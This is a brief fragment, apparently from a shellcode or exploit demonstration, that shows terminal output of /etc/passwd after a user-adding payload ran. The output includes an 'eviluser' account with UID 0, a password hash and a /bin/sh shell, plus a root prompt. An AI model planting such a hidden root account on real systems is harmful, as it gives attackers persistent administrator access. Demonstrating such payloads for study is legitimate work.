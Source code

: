 ~~~
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
eviluser:$1$xyz$qpXht651W6vzmblmv2oKj/:0:0::/dev/null:/bin/sh
eviluser:$1$xyz$qpXht651W6vzmblmv2oKj/:0:0::/dev/null:/bin/sh
root@ubuntu:~/user-add-shlc# 
~~~